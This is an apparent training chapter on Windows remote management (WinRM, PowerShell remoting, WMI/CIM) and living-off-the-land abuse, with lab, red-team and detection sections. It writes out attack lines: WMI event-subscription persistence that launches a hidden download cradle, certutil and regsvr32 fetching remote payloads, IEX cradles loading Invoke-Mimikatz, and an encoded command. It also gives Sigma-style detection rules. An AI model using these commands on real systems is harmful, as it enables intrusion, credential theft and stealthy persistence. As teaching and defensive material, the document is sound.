



This is Chapter 5 of the Windows Internals series. The previous chapter gave you the object pipeline and local PowerShell tradecraft. This chapter takes the same shell and points it at *other machines* — the remoting stack that lets an admin (or an attacker) run a command on fifty servers as easily as one, the WMI/CIM management layer that underpins half of Windows administration and most lateral-movement tooling, and the "living off the land" mindset that explains why so many real intrusions never touch a custom executable at all.

---

## Who This Chapter Is For (and the Map Ahead)

If Chapter 4 got you comfortable typing `Get-Process` and piping objects around, this chapter answers the next question every learner asks: how does any of this work *across the network*? The honest answer touches three technologies that are easy to confuse — WinRM (the transport), WMI (the original management model), and CIM (the modern, WinRM-based way to talk to WMI. You'll learn each one from its actual wire protocol up, then see how the same primitives that make Windows administration possible are exactly what attackers reach for because they're signed, trusted, and already installed.



By the end you'll be able to stand up remoting from scratch, query and abuse WMI, tell a real lateral-movement command apart from ordinary admin traffic, and know exactly which Windows Event Log IDs light up when someone does.

---

## 1. WinRM and WS-Management: The Transport Underneath Everything

Before PowerShell can run a command on a remote box, something has to carry the request there and the result back. That something is **WinRM** (Windows Remote Management), Microsoft's implementation of the **WS-Management** (WS-Man) protocol — an open, SOAP-based standard for managing servers.

Key facts, absolute basics first:

- WinRM is a Windows **service** (`WinRM`) that listens on a network port and speaks SOAP-over-HTTP(S).
- Default ports: **5985/tcp** for HTTP, **5986/tcp** for HTTPS. Older systems sometimes still expose plain HTTP 80/443 configurations, but 5985/5986 are the modern defaults you'll see on every assessment.
- WinRM is **off by default** on client Windows editions (Windows 10/11) and **on by default** on Windows Server since 2012, specifically for Server Core / management scenarios — check with `winrm quickconfig` or `Get-Service WinRM`.
- The protocol carries not just PowerShell traffic but any WS-Man-compliant management call — WMI over WinRM, event subscriptions, and third-party management tools all ride the same transport.

### Enabling and configuring WinRM

```powershell
# Quick, interactive enablement (creates listener, opens firewall, starts service)
winrm quickconfig

# Non-interactive, scripted enablement (what deployment tooling actually runs)
Enable-PSRemoting -Force -SkipNetworkProfileCheck

# List active listeners (shows Transport, Address, Port)
winrm enumerate winrm/config/listener

# Check the WinRM service itself
Get-Service WinRM | Select-Object Status, StartType
```

Sample output for the listener enumeration:

```
Listener
    Address = *
    Transport = HTTP
    Port = 5985
    Hostname
    Enabled = true
    URLPrefix
    CertificateThumbprint
    ListeningOn = 0.0.0.0, 127.0.0.1, ::1, [fe80::...]
```

`Enable-PSRemoting` does four things under the hood, and knowing them matters both for troubleshooting and for spotting when an attacker has quietly enabled remoting on a box that shouldn't have it:

1. Starts and sets the `WinRM` service to auto-start.
2. Creates an HTTP listener bound to all addresses.
3. Adds a Windows Firewall rule (`Windows Remote Management (HTTP-In)`) allowing 5985/tcp from the current network profile.
4. Registers the default PowerShell remoting endpoints (session configurations) — `Microsoft.PowerShell`, `Microsoft.PowerShell32`, etc.

> **Pitfall:** `Enable-PSRemoting` will refuse to run on a network profile set to "Public" unless you pass `-SkipNetworkProfileCheck` or the profile is actually Domain/Private. On an assessment, seeing WinRM enabled despite a Public-profile adapter is itself worth flagging — it usually means someone forced it.

### Authentication over WinRM

WinRM supports several authentication mechanisms, negotiated per-connection:

| Mechanism | How it works | Typical use |
|---|---|---|
| **Negotiate (Kerberos/NTLM)** | Default on domain-joined hosts; tries Kerberos first, falls back to NTLM | Standard domain administration |
| **Kerberos** | Pure Kerberos, no NTLM fallback | Hardened domain environments |
| **Basic** | Plaintext credentials (only safe over HTTPS) | Rarely enabled; a red flag if seen over HTTP |
| **CredSSP** | Delegates full credentials to the remote host (allows a "double hop") | Needed when the remote command must itself authenticate onward |
| **Certificate** | Client certificate-based auth, no password sent | High-security / non-domain scenarios |

CredSSP deserves a callout because it is both a legitimate fix for the "double-hop problem" (Chapter 4 territory: your remote session can't use your cached credentials to reach a *third* machine) and a favorite attacker/red-team lateral-movement enabler, since it hands your actual plaintext-equivalent credential to the target.

```powershell
# Enable CredSSP client-side (on the machine initiating the connection)
Enable-WSManCredSSP -Role Client -DelegateComputer TargetServer01

# Enable CredSSP server-side (on the target)
Enable-WSManCredSSP -Role Server

# Use it
Invoke-Command -ComputerName TargetServer01 -Authentication CredSSP -Credential (Get-Credential) -ScriptBlock { whoami }
```

---

## 2. PowerShell Remoting (PSRP): Running Code on Other Machines

**PSRP** (PowerShell Remoting Protocol) is the layer built on top of WinRM that actually carries PowerShell commands, pipeline objects, and output. Two cmdlets dominate daily use:

```powershell
# One-shot / fire-and-forget: run a command, get results back, session closes
Invoke-Command -ComputerName SRV01,SRV02 -ScriptBlock { Get-Service WinRM }

# Interactive: open a persistent session, like SSH into a Linux box
Enter-PSSession -ComputerName SRV01

# Reusable session object — faster for repeated calls, preserves state between calls
$session = New-PSSession -ComputerName SRV01
Invoke-Command -Session $session -ScriptBlock { $x = 5 }
Invoke-Command -Session $session -ScriptBlock { $x * 2 }   # returns 10 — state persisted
Remove-PSSession $session
```

Sample `Invoke-Command` output against multiple hosts — note the `PSComputerName` property PowerShell automatically appends so you can tell which result came from where:

```
Status   Name               DisplayName            PSComputerName
------   ----               -----------             --------------
Running  WinRM              Windows Remote Manage.. SRV01
Running  WinRM              Windows Remote Manage.. SRV02
```

### What actually happens on the wire



The important detail: remote output isn't raw text, it's **CLIXML-serialized .NET objects**, deserialized back into (mostly) live objects on your end — though remote objects lose their methods and become "deserialized" snapshot types (`Deserialized.System.Diagnostics.Process` instead of `System.Diagnostics.Process`). This is a common gotcha: you can inspect properties of remote objects but can't call `.Kill()` on a deserialized `Process` object — you have to invoke the method *inside* the remote scriptblock instead.

### Session configurations and JEA (Just Enough Administration)

Every remoting session connects to a named **session configuration** (a.k.a. endpoint), not directly to a shell. The default is `Microsoft.PowerShell`, which gives a full, unrestricted shell. **JEA** lets administrators register a *custom* constrained endpoint that only exposes specific cmdlets/parameters to specific users — the PowerShell equivalent of sudoers with very narrow command allowlists.

```powershell
# List registered endpoints on a machine
Get-PSSessionConfiguration | Select-Object Name, Permission

# Connect to a specific (possibly JEA-constrained) endpoint
Enter-PSSession -ComputerName SRV01 -ConfigurationName JEA_HelpDesk
```

From a blue-team perspective, JEA is one of the most underused hardening controls available: a help-desk account that can only run `Restart-Service` and `Get-EventLog` through a JEA endpoint simply *cannot* be abused for full remote code execution even if its credentials leak.

---

## 3. WMI: The Original Windows Management Model

**WMI** (Windows Management Instrumentation) is Microsoft's implementation of a broader industry standard called **CIM** (Common Information Model, from the DMTF). Long before PowerShell existed, WMI was *the* way to query and control almost anything about a Windows machine — processes, services, disks, network adapters, installed software, scheduled tasks, even BIOS settings — all exposed as structured, queryable objects.

### The mental model

Think of WMI as a hierarchical database:

- **Namespaces** — containers, like folders (`root\cimv2` is the default and most commonly used; `root\subscription` matters a lot for persistence, covered below).
- **Classes** — like tables (`Win32_Process`, `Win32_Service`, `Win32_OperatingSystem`, `Win32_UserAccount`).
- **Instances** — like rows: an actual running process, an actual service.
- **Methods** — actions you can invoke on a class or instance (`Win32_Process.Create()` starts a new process; `Win32_Process.Terminate()` kills one).



### Querying WMI with WQL

WMI has its own SQL-like query language, **WQL** (WMI Query Language):

```powershell
# Classic WMI cmdlet (legacy, deprecated but still everywhere)
Get-WmiObject -Class Win32_Process -Filter "Name='notepad.exe'"

# Direct WQL via wmic.exe (deprecated in Windows 11 but still present on most estates)
wmic process where "name='notepad.exe'" get ProcessId,CommandLine

# Modern equivalent using CIM cmdlets (see next section)
Get-CimInstance -ClassName Win32_Process -Filter "Name='notepad.exe'"
```

Sample output:

```
ProcessId  CommandLine
---------  -----------
4821       "C:\Windows\system32\notepad.exe" C:\Users\bob\notes.txt
```

WQL supports the operators you'd expect from SQL: `=`, `<`, `>`, `LIKE`, `AND`, `OR`. A query attackers and defenders both use constantly:

```sql
SELECT * FROM Win32_Process WHERE Name = 'lsass.exe'
SELECT * FROM Win32_Service WHERE StartMode = 'Auto' AND State != 'Running'
SELECT * FROM Win32_QuickFixEngineering WHERE HotFixID = 'KB5028185'
```

That last one — checking for a specific patch — is exactly how both vulnerability scanners and attacker recon scripts confirm whether a target is patched against a given CVE without ever touching disk with a scanner binary.

### Remote WMI and lateral movement

```powershell
# Remote WMI query over DCOM (legacy transport, port 135 + high dynamic RPC range)
Get-WmiObject -Class Win32_OperatingSystem -ComputerName SRV01 -Credential (Get-Credential)

# The classic lateral-movement primitive: spawn a process remotely
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "cmd.exe /c whoami > C:\out.txt" -ComputerName SRV01
```

This is the technique behind tools like **Impacket's `wmiexec.py`** and **PowerShell Empire's WMI lateral-movement module** — it doesn't drop a service or scheduled task, it just calls a documented WMI method that legitimate admin tooling calls too. That's exactly why it's a LOLBAS-style technique: nothing about the API call is inherently malicious.

> **Transport note:** legacy WMI over DCOM uses **RPC/DCOM on TCP/135** plus a dynamically negotiated high port (typically 49152–65535) — a very different network footprint than WinRM's fixed 5985/5986. Firewall rules that only block 5985/5986 do nothing against DCOM-based WMI lateral movement, which is a common misconfiguration on segmented networks.

---

## 4. CIM Cmdlets: The Modern, WinRM-Native Way

Since PowerShell 3.0, Microsoft introduced the `CimInstance`/`CimSession` family of cmdlets as the recommended replacement for the old `Get-WmiObject`/`Invoke-WmiMethod` family. The underlying data model (CIM) is the same; what changed is the transport and the object types.

| | WMI cmdlets (legacy) | CIM cmdlets (modern) |
|---|---|---|
| Cmdlet family | `Get-WmiObject`, `Invoke-WmiMethod`, `Remove-WmiObject` | `Get-CimInstance`, `Invoke-CimMethod`, `Remove-CimInstance` |
| Default remote transport | DCOM (port 135 + dynamic RPC) | **WSMan/WinRM** (5985/5986) — same as PS remoting |
| Session object | none by default (per-call) | `CimSession` — reusable, explicit |
| .NET objects returned | `System.Management.ManagementObject` | `Microsoft.Management.Infrastructure.CimInstance` |
| Cross-platform (PS 7+) | No — Windows-only | Yes, via WSMan |
| Status | Deprecated, but present everywhere | Recommended going forward |

```powershell
# Create a reusable remote session (uses WinRM, same auth model as PS remoting)
$cs = New-CimSession -ComputerName SRV01 -Credential (Get-Credential)

# Query using that session
Get-CimInstance -CimSession $cs -ClassName Win32_Service -Filter "State='Running'"

# Invoke a method the modern way
Invoke-CimMethod -CimSession $cs -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine="cmd.exe /c ipconfig > C:\out.txt"}

Remove-CimSession $cs
```

Practical consequence for defenders: because CIM cmdlets ride WinRM, **CIM-based lateral movement shows up as WinRM/5985 traffic and Windows Remote Management event logs**, whereas legacy WMI-over-DCOM lateral movement shows up as **RPC/135 traffic and different event IDs**. Knowing which family a tool uses tells you exactly where to look in your logs.

---

## 5. WMI Persistence: Event Subscriptions

Beyond querying and remote execution, WMI has a built-in **eventing system** that is one of the stealthiest, most durable persistence mechanisms in Windows because it lives entirely inside the WMI repository — no file on disk, no obvious registry Run key, no scheduled task in Task Scheduler's GUI.

Three WMI classes work together:

1. **`__EventFilter`** — defines the trigger condition (a WQL query against system events, e.g., "process named `notepad.exe` starts" or "system has been up for 300 seconds").
2. **`__EventConsumer`** — defines the action (`CommandLineEventConsumer` runs a command; `ActiveScriptEventConsumer` runs VBScript/JScript).
3. **`__FilterToConsumerBinding`** — links a filter to a consumer, activating the subscription.

```powershell
# Simplified illustration of the three-part persistence structure (conceptual — lab use only)
$filterArgs = @{
    Name        = "SystemUptimeTrigger"
    EventNamespace = "root\cimv2"
    QueryLanguage  = "WQL"
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 300"
}
$filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $filterArgs

$consumerArgs = @{
    Name = "SystemUptimeConsumer"
    CommandLineTemplate = "powershell.exe -NoP -W hidden -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.5/stager.ps1')"
}
$consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $consumerArgs

New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{
    Filter   = $filter
    Consumer = $consumer
}
```

This is the same pattern used by real-world malware families (documented in multiple APT reports as a persistence mechanism), and it's exactly what tools like **Empire's `Invoke-WMIPersistence`** and **Impacket-adjacent tradecraft** automate. Because the trigger and payload live in the CIM repository rather than the file system, traditional file-based AV sweeps miss it entirely — you need WMI-repository-aware tooling (Sysinternals `Autoruns` shows WMI subscriptions, and `Get-CimInstance -Namespace root/subscription -ClassName __EventFilter` will enumerate them directly).

---

## 6. LOLBAS: Living Off the Land Binaries and Scripts

**LOLBAS** (Living Off the Land Binaries And Scripts, tracked at lolbas-project.github.io, with a Linux/Unix sibling project GTFOBins) is the catalog of *legitimate, Microsoft-signed* executables and scripts that can be abused to execute code, download payloads, bypass application allowlisting, or exfiltrate data — without the attacker ever bringing their own binary onto disk.

The core insight: application allowlisting (AppLocker, Windows Defender Application Control) and antivirus signature detection both fundamentally trust "is this a known-good, signed Microsoft binary?" LOLBAS techniques exploit the gap between *"this binary is legitimate"* and *"this binary can only be used for its intended purpose."*

### A representative sample (not exhaustive — the project catalogs 150+)

| Binary | Legitimate purpose | Abuse |
|---|---|---|
| `powershell.exe` | Scripting/automation | `-enc` base64 payloads, `IEX (New-Object Net.WebClient).DownloadString(...)` download cradles |
| `mshta.exe` | Runs HTML Applications (.hta) | Executes embedded VBScript/JScript, common phishing payload launcher |
| `certutil.exe` | Certificate management | `certutil -urlcache -split -f http://evil/payload.exe out.exe` — file download; also base64 encode/decode |
| `regsvr32.exe` | Registers COM DLLs | "Squiblydoo" — `regsvr32 /s /u /i:http://evil/file.sct scrobj.dll` fetches and runs a remote scriptlet |
| `rundll32.exe` | Runs functions exported from DLLs | Executes arbitrary exported functions from attacker DLLs, JavaScript via `rundll32.exe javascript:...` |
| `msbuild.exe` | Compiles .NET projects | Executes inline C# from a crafted `.csproj` — no compiler invoked separately, no `.exe` written |
| `wmic.exe` | WMI query tool | `wmic os get /format:"http://evil/payload.xsl"` — XSL script injection execution |
| `bitsadmin.exe` | Background Intelligent Transfer Service jobs | Download files via BITS, evading process-based network monitoring |

```powershell
# certutil download example (extremely common in real intrusions — teach this from scratch)
certutil.exe -urlcache -split -f http://10.10.10.5/nc.exe C:\Users\Public\nc.exe

# regsvr32 "Squiblydoo" — fetches and executes a remote .sct scriptlet, bypassing many allowlist rules
regsvr32.exe /s /u /i:http://10.10.10.5/payload.sct scrobj.dll

# mshta launching an inline VBScript payload
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""calc.exe"":close")
```

> **Teach-from-scratch note on `certutil`:** it's a built-in Windows utility for managing PKI certificates and certificate authorities — checking revocation, installing root certs, managing the local certificate store. The `-urlcache` switch was added to let admins pre-populate the URL cache for CRL/OCSP checks by fetching a URL; abusing it to fetch arbitrary files piggybacks on that same caching behavior. It requires no special privileges and is present on every Windows install by default, which is exactly why it's on every red-team and malware author's shortlist.

### PowerShell-specific LOLBAS: download cradles

A "download cradle" is a one-liner that fetches and executes code entirely in memory, without ever writing a file to disk:

```powershell
# Classic download cradle
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.5/Invoke-Mimikatz.ps1')

# Using Invoke-WebRequest / Invoke-RestMethod (more modern, more logged by default)
IEX (Invoke-WebRequest -Uri http://10.10.10.5/stager.ps1 -UseBasicParsing).Content

# Encoded command (base64, UTF-16LE) — hides the payload from casual command-line inspection
powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4ANQAvAHMALgBwAHMAMQAnACkA
```

This is precisely the pattern that Chapter 4's AMSI and script-block logging content exists to defeat — go back to that chapter if you need a refresher on why `-EncodedCommand` alone doesn't evade a properly configured environment.

---

## 7. Hands-On Lab: Remote Recon and Lateral Movement Simulation

**Scenario:** you have valid domain credentials for a low-privilege account and WinRM access to a target server `SRV01` (192.168.56.20) in an isolated lab range. Goal: enumerate the box remotely using three different transports (PSRP, legacy WMI, CIM), then simulate — safely, in your own lab only — the exact primitive real lateral-movement tooling uses.

**Step 1 — confirm reachability and transport availability**

```powershell
Test-NetConnection -ComputerName 192.168.56.20 -Port 5985
```

```
ComputerName     : 192.168.56.20
RemotePort       : 5985
InterfaceAlias   : Ethernet
SourceAddress    : 192.168.56.10
TcpTestSucceeded : True
```

**Step 2 — PSRP recon**

```powershell
$cred = Get-Credential   # lab-domain\labuser
Invoke-Command -ComputerName 192.168.56.20 -Credential $cred -ScriptBlock {
    [PSCustomObject]@{
        Hostname = $env:COMPUTERNAME
        OSVersion = (Get-CimInstance Win32_OperatingSystem).Caption
        LoggedOnUser = (Get-CimInstance Win32_ComputerSystem).UserName
        Uptime = (Get-Date) - (Get-CimInstance Win32_OperatingSystem).LastBootUpTime
    }
}
```

```
Hostname     OSVersion                                   LoggedOnUser        Uptime
--------     ---------                                    ------------        ------
SRV01        Microsoft Windows Server 2022 Standard       LAB\svc_backup      2.05:33:12
```

**Step 3 — legacy WMI over DCOM (note the different transport, different logs)**

```powershell
Get-WmiObject -Class Win32_Process -ComputerName 192.168.56.20 -Credential $cred |
    Where-Object { $_.Name -eq 'lsass.exe' } |
    Select-Object ProcessId, Name
```

```
ProcessId Name
--------- ----
       684 lsass.exe
```

**Step 4 — CIM session enumeration of services with weak configurations (a real triage step)**

```powershell
$cs = New-CimSession -ComputerName 192.168.56.20 -Credential $cred
Get-CimInstance -CimSession $cs -ClassName Win32_Service |
    Where-Object { $_.StartMode -eq 'Auto' -and $_.PathName -notmatch '"' } |
    Select-Object Name, PathName
```

The last filter — `PathName -notmatch '"'` — finds **unquoted service paths**, a classic privilege-escalation vector: if a service binary path is `C:\Program Files\My App\service.exe` without quotes, Windows tries `C:\Program.exe`, then `C:\Program Files\My.exe`, before the real target, and any of those locations being writable by your low-priv account means planting a binary there gets it executed as the service account (often SYSTEM).

**Step 5 — simulate the WMI remote-execution primitive (lab only, own infrastructure)**

```powershell
Invoke-CimMethod -CimSession $cs -ClassName Win32_Process -MethodName Create `
    -Arguments @{ CommandLine = "cmd.exe /c whoami /all > C:\Windows\Temp\out.txt" }
```

```
ReturnValue ProcessId PSComputerName
----------- --------- --------------
          0      5124  192.168.56.20
```

A `ReturnValue` of `0` means success. Retrieve the output over the same session (e.g. via `Invoke-Command` to read the file) to complete the loop — exactly the pattern `wmiexec.py` automates end-to-end, including its clever trick of writing command output to a share and reading it back instead of using an interactive shell (which is why `wmiexec` traffic looks different from `psexec`-style traffic even though both land on the same host).

---

## 8. Red Team: Offensive Use of Remoting, WMI & LOLBAS

> **Red Team Angle** — Remoting, WMI, and LOLBAS are the backbone of "living off the land" lateral movement because every technique above uses signed, documented, expected Windows functionality. A red team operator prioritizes these over dropping custom implants because:
>
> - **No new binary on disk** to trip AV/EDR file-based signatures.
> - **Expected admin traffic profile** — WinRM and WMI traffic between a jump box and servers is exactly what legitimate administration looks like, so it blends in with baseline noise.
> - **Tool-agnostic tradecraft** — Impacket's `wmiexec.py`/`smbexec.py`, PowerShell Empire, Cobalt Strike's `jump wmi_exec`/`jump winrm`, and Metasploit's `psexec`-family modules all wrap the exact primitives shown above; understanding the underlying WMI/WinRM call means you can recognize (and later, replicate manually) any tool's output.
> - **Credential reuse** — CredSSP delegation and Kerberos double-hop handling mean a single compromised credential with local admin on enough hosts can pivot without ever needing an exploit.
>
> A typical operator chain: initial foothold → dump credentials (later chapter) → `Test-NetConnection` sweep for 5985/135 → `Invoke-Command`/`wmiexec` to confirm admin rights on candidate hosts → WMI event-subscription persistence on 1–2 hosts as a fallback → pivot toward domain controllers.

---

## 9. Blue Team: Detecting Remoting, WMI & LOLBAS Abuse

> **Blue Team Angle** — every technique in this chapter leaves a specific, catchable signature if you're logging the right things.

Key Windows Event IDs to alert on:

| Event ID | Log | What it means |
|---|---|---|
| **4688** | Security | New process created — the single most important event; pair with command-line auditing (`ProcessCommandLine` field, requires `Include command line in process creation events` GPO) |
| **4624** (Logon Type 3) | Security | Network logon — WinRM/WMI remote auth shows up here; Logon Type **3** for WMI/SMB, **often via NTLM or Kerberos** |
| **91 / 168** | Microsoft-Windows-WinRM/Operational | WinRM session created/closed |
| **5857 / 5858 / 5859 / 5860 / 5861** | Microsoft-Windows-WMI-Activity/Operational | WMI provider started, WMI query executed, event consumer/filter/binding created — **5861 specifically logs new `__EventFilter`/`__EventConsumer`/`__FilterToConsumerBinding` creation**, the single best signal for WMI persistence |
| **4103 / 4104** | PowerShell/Operational | Module logging (4103) and Script Block logging (4104) — catches `IEX`, `-EncodedCommand` decode, download cradles |

Concrete detection logic examples:

```
# Sigma-style pseudo-rule: suspicious certutil download
title: Certutil Used to Download File
detection:
    selection:
        Image|endswith: '\certutil.exe'
        CommandLine|contains:
            - '-urlcache'
            - '-split'
    condition: selection

# Sigma-style pseudo-rule: WMI event subscription persistence
title: WMI Persistence via EventFilter/Consumer Binding
detection:
    selection:
        EventID: 5861
        Namespace: 'root\subscription'
    condition: selection
```

Practical hardening steps, in order of impact:

1. **Enable PowerShell Script Block Logging + Module Logging** (Group Policy → Administrative Templates → Windows Components → PowerShell) and ship logs off-box — this alone catches the majority of LOLBAS-via-PowerShell activity.
2. **Constrain WinRM to expected source IPs** using Windows Firewall scoping, and prefer **JEA endpoints** for any account that doesn't need full remoting.
3. **Enable Command Line Process Auditing** (`Audit Process Creation` + the "Include command line" GPO) so Event ID 4688 actually contains what was run.
4. **Monitor WMI-Activity/Operational log** specifically for Event 5861 — WMI persistence is rare in legitimate environments and almost always worth an immediate look.
5. **Application allowlisting (WDAC/AppLocker) with script rules**, not just executable rules — this is the only control that meaningfully constrains `mshta`, `regsvr32`, and `msbuild`-style abuse, since blocking the binaries outright breaks legitimate functionality.
6. Consider **network segmentation** so that WinRM/WMI/DCOM traffic is only possible from designated jump/admin hosts, sharply limiting the blast radius of any single compromised workstation.

---

## Bug Bounty Angle

> **Bug Bounty Angle** — Remoting/WMI/LOLBAS content is mostly an internal-network, red-team, and detection-engineering topic rather than a classic web bug-bounty finding, but it surfaces in bounty programs in a few specific ways worth knowing:
>
> - **Exposed WinRM (5985/5986) on internet-facing assets** is a valid, high-severity finding on programs that include internal/exposed infrastructure in scope — report it as "unauthenticated or weakly authenticated remote management interface exposed to the internet," and confirm with a benign `Test-NetConnection`/banner check, never with brute-forced credentials unless the program explicitly authorizes it.
> - **RCE-as-a-service platforms** (many cloud consoles, MSP RMM tools, and "remote support" SaaS products) internally use WMI/WinRM-equivalent primitives; command-injection bugs in the parameters those platforms pass to `Win32_Process.Create`-style calls have been reported and paid out as critical RCE.
> - **HackerOne/Bugcrowd programs covering Windows-based products** (backup agents, EDR agents, RMM agents) frequently have LOLBAS-adjacent findings: an agent that shells out to `certutil`/`mshta`/`msbuild` internally to "helpfully" fetch or run something can itself become an injection point if any input reaches that shell-out unsanitized.

## CTF Angle

> **CTF Angle** — WMI/WinRM/LOLBAS shows up constantly in Windows-flavored CTFs, especially HackTheBox and TryHackMe "Windows lateral movement" and "Active Directory" tracks.
>
> - **Common pattern:** you land as a low-priv user with WinRM (5985) reachable on a second box. Tools: `evil-winrm` (the go-to CTF tool — `evil-winrm -i 10.10.10.5 -u labuser -p 'Password123!'`) drops you straight into an interactive PowerShell-like remote shell.
> - **Common pattern 2:** you're handed valid creds and must prove remote code execution — Impacket's `wmiexec.py <domain>/<user>:<pass>@<target>` or `psexec.py` are the standard tools; know the difference (wmiexec uses WMI+SMB for output retrieval and leaves less of a footprint than psexec, which installs a service).
> - **Common pattern 3 ("living off the land" challenges):** you're given command execution but heavily filtered/monitored, and must chain a LOLBAS technique (e.g., `certutil -urlcache -split -f` to fetch a second-stage payload) because direct downloads via `curl`/`wget`-equivalents are blocked or logged.
> - Flags are typically retrieved after landing a shell — `type C:\Users\<user>\Desktop\user.txt` or `root.txt`/`flag.txt` equivalents — so the actual "solve" is getting from network access to an interactive or command-execution primitive as efficiently as possible.

---

## Common Pitfalls

- **Confusing PSRP, WMI, and CIM as the same thing.** They overlap conceptually (all "remote management") but have different transports, different event log footprints, and different failure modes. Know which one a tool you're using actually relies on.
- **Assuming blocking 5985/5986 stops all remote management.** Legacy WMI-over-DCOM rides RPC/135 and dynamic high ports — a firewall rule scoped only to WinRM ports leaves DCOM-based lateral movement completely open.
- **Forgetting the double-hop problem.** A remote session's credentials don't automatically flow to a *third* system the remote script tries to reach; without CredSSP (or Kerberos constrained delegation), an `Invoke-Command` script that itself tries to hit a file share elsewhere will fail with access denied, confusing newcomers who assume "I'm authenticated, so everything downstream should just work."
- **Treating deserialized remote objects like live local objects.** You cannot call `.Kill()` on a `Deserialized.System.Diagnostics.Process` you got back from `Invoke-Command` — invoke the method inside the remote scriptblock instead.
- **Overlooking WMI persistence during incident response.** File-based and Registry-Run-key sweeps miss WMI event subscriptions entirely; `Get-CimInstance -Namespace root/subscription -ClassName __EventFilter` (and its Consumer/Binding siblings) must be checked explicitly, or use Sysinternals Autoruns, which does surface WMI subscriptions.
